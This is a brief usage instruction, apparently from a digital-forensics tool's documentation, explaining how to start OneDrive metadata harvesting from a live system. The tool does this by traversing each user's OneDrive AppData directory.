Click on -> `File` -> `Live system` to start `OneDrive` metadata harvesting.
It will traverse every user's `OneDrive` `AppData` directory, and load
the files that contain significant information.




